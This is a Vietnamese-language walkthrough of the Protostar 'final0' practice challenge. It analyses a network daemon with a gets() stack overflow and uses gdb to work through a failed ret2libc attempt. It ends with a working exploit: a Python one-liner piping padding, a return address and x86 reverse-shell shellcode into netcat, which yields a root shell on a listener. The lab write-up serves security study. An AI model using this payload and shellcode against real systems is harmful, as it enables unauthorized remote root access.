

# **final0**
## Source code
```
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```

- Lắng nghe ở cổng 2995.
- Nhận một string từ client và chuyển thành chữ viết hoa bằng hàm toupper().

Do dùng hàm gets() cho biến local: buffer nên ta có thể tấn công stackoverflow.
## Tools
- gdb
- python
- netcat

## Phân tích chương trình
Dùng gdb để debug final0:
- set follow-fork-mode child
- set disassembly-flavor intel
- define hook-stop
  - x/3i $eip
  - x/32w $esp
  - x/32w $ebp - 16
  - end

Dùng ```nc 127.0.0.1 2995``` để connect tới server:
- python -c '"a"*(512 + 20)' | nc 127.0.0.1 2995

Quan sát gdb:
- breakpoint ngay sau hàm gets():

  

  - (512 + 20) ký tự "a" được đưa vào stack: trong đó 20 bytes overflow
- breakpoint ở hàm strdup() - đã kết thúc vòng lặp toupper():

  

  - tuy đã kết thúc strdup nhưng những bytes "a" overflow chưa bị chuyển thành "A"
  - Chạy thử chương trình dưới đây:

    
  
  - string b dù dài đến mấy thì strlen(b) luôn trả về 22. Nhận ra được vấn đề ở hàm strlen() khi char[] bị overflow
  - => Những bytes overflow không bị ảnh hưởng bởi toupper()
- breakpoint ở instruction ret của hàm get_username(), quan sát được return address nằm ở địa chỉ 0xbffff77c:

  

## Exploit
**Fail #1: ret2libc**

Sử dụng kĩ thuật ret2libc như trong stack6:
  - 0xb7fb63bf:      "/bin/sh"
  - 0xb7ecffb0:      <__libc_system>

Exploit:
```
python -c 'print "a"*0x214 + "\xb0\xff\xec\xb7" + "\xbf\x63\xfb\xb7"' | nc 127.0.0.1 2995
```
Trong đó:
  - "a"*0x214: là các ký tự rác để overflow đến ngay trước return address
  - "\xb0\xff\xec\xb7": địa chỉ hàm system biểu diễn bằng little endian, ghi đè vào return address
  - "\xbf\x6c\xfb\xb7": khi gọi hàm system, top của stack chính là argument của hàm system, đây là địa chỉ của string "/bin/sh"

Tuy nhiên không có gì xảy ra, kiểm tra gdb server:
```
Executing new program: /bin/dash 
```
=> Phía server có chạy /bin/dash, tuy nhiên client không tương tác được với chương trình.

**Final: reversed shell**

Reversed shell: là shell có kết nối bắt nguồn từ server(target) ngược trở về client(host)

=> 
  - Tìm shellcode để chạy reversed shell phía server (cụ thể phải có từ khóa 127.0.0.1 do địa chỉ này chứa NUL byte): [link](https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html)
  - chạy ```nc -l -p 4444```:
    - -l: listen
    - -p: port (shellcode tạo kết nối đến port 4444)
  - Để shellcode ở ngay sau return address (không bị toupper ảnh hưởng)

Exploit:
```
python -c 'print "a"*0x214 + "\x80\xf7\xff\xbf"+"\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"' | nc 127.0.0.1 2995
```
Trong đó:
  - "a"*0x214: là các ký tự rác để overflow đến ngay trước return address
  - "\x80\xf7\xff\xbf": ghi đè vào return address địa chỉ để shellcode dưới dạng little endian
  - "\x31\xc0\x31\xdb...\xb0\x01\xcd\x80": shellcode tạo reversed shell đến 127.0.0.1 port 4444
Kết quả:
```
user@protostar:/tmp$ nc -l -p 4444
whoami
root
```
OK

# References
- Reversed shell: [link](https://viblo.asia/p/hieu-ro-ve-reverse-shells-LzD5ddE45jY)
- Shellcode reversed shell localhost: [link](https://packetstormsecurity.com/files/154374/Linux-x86-TCP-Reverse-Shell-127.0.0.1-Nullbyte-Free-Shellcode.html)
